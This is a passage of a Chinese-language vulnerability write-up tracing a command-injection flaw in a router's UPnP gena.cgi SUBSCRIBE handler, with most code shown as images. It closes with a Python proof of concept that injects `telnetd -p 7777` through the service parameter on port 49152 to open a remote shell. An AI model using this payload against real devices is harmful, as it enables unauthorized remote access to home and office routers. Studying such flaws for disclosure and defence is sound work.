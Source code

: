 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HoL8rWLfqC4l5ibczH6C2H4a0cRKPXsKYhbz2ic5NAvqgnnrWIgsMEs5drwxluN3gkcVp5aFXIKIJA/640?wx_fmt=png)

可以看到 v5 是 service = 后面的内容，再先看到 SUBCRIBE 请求方式对应的 sub_41A390 函数：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HoL8rWLfqC4l5ibczH6C2H4guibyzFHBo0ibI6q2xXDCj7r6618uZFnrJF1iaNCiazLhg396KDBPyKpTg/640?wx_fmt=png)

看到这里，拼接好的字符串 v16 作为了 xmldbc_ephp 的参数，xmldbc_ephp 函数在这里显然就是运行了 / htdocs/upnp/run.NOTIFY.php 文件，于是，我们再来分析这个文件：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HoL8rWLfqC4l5ibczH6C2H4kQskoKicVbABhLnjOaibPdwV57icJj2juKmNqIkgIosTwpfQANDh0ltgg/640?wx_fmt=png)

当 SID 为空的时候，调用了 GENA_subscribe_new 函数，这个函数在 / htdocs/upnpinc/gena.php 中：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HoL8rWLfqC4l5ibczH6C2H4c6GD2ngBQhnS4h8NmctdlX7JuyCzibiaaDZsvYIZA2RP19AMndlYuwEg/640?wx_fmt=png)

这里有对 HOST 的检查，然后最后调用到了 GENA_notify_init 函数：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HoL8rWLfqC4l5ibczH6C2H47vjCYGRFWz4VgTxtmYBxWSjPLEic5cT7IE1g2UyKYPvoCRyKNlHR8bA/640?wx_fmt=png)

在最后，将 $shell_file 写入了 shell 文件中，不难想到，可以通过控制 shell_file 达成任意命令执行。

再看回到 sub_41A390 函数中，既然 HTTP_SID 必须为空才能走到漏洞点，那么自然就走到了 else 分支：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HoL8rWLfqC4l5ibczH6C2H42J20nTPXEibLGH6nXjmqVRriciaqw6YfELFicLpF9jMAtu4dnN9QU9uicaQ/640?wx_fmt=png)

这些检查都需要绕过，才能走到 xmldbc_ephp 函数：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HoL8rWLfqC4l5ibczH6C2H4A6azj8aYDvfDL4tVsDISWeicPIjoxbePNRe0lOFea4RtUDglrLicq8IQ/640?wx_fmt=png)

这里的 SHELL_FILE 中可控参数 a1 就是从 genacgi_main 传进来的参数 v5，也就是 service = 后面的内容。

综上，可以通过对 service 注入恶意指令，造成 RCE 漏洞 。

至此，我们知道了报文的请求方式得是 SUBSCRIBE 才能触发漏洞，至于 UNSUBSCRIBE 和 SID 不为空的情况可以自行审一遍代码，很容易看出是行不通的。

接下来要做的就是找的对应的 UPNP 端口，先找 gena.cgi 在哪里，看到 / etc/services/HTTP/httpsvcs.php 文件：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HoL8rWLfqC4l5ibczH6C2H43jAuOWdedAdEoP5ljDx3saaPFfreq7uyytBByaJzQwRtxz9dArIsWQ/640?wx_fmt=png)

这里将 cgibin 的软链接建到了 / var/htdocs/upnp / 目录下，而这个目录也有软链接，为 / htdocs/upnp/docs：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HoL8rWLfqC4l5ibczH6C2H439ZvTia7ia0eS5yDdjuyHiaL2Fwn2BItoO6JJAsJEAH3wD6LJlEURibQMw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HoL8rWLfqC4l5ibczH6C2H40f1ggXpn7DLJD1icNkw5SbRAHmaqHyz2fMjY6uUdK1JrupTMA8JjJxg/640?wx_fmt=png)

得到了这些信息，再看到 / var/run/httpd.conf 文件：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HoL8rWLfqC4l5ibczH6C2H4GMwrFZMG3ib9EQ1azNYsdL8eGqKBOIWEPW2ekeYkEQqjq0b5zVwF0ZQ/640?wx_fmt=png)

可以看到，需要向 49152 端口发送报文。

**POC：**

```
from pwn import *
from socket import *
from os import *
from time import *
 
request = b"SUBSCRIBE /gena.cgi?service=" + b"`telnetd -p 7777`" + b" HTTP/1.1\r\n"
request += b"Host: localhost:49152\r\n"
request += b"Callback: http:///\r\n"
request += b"NT: upnp:event\r\n"
request += b"Timeout: Second-2333\r\n\r\n"
 
s = socket(AF_INET, SOCK_STREAM)
s.connect((gethostbyname("192.168.0.1"), 49152))
s.send(request)
 
```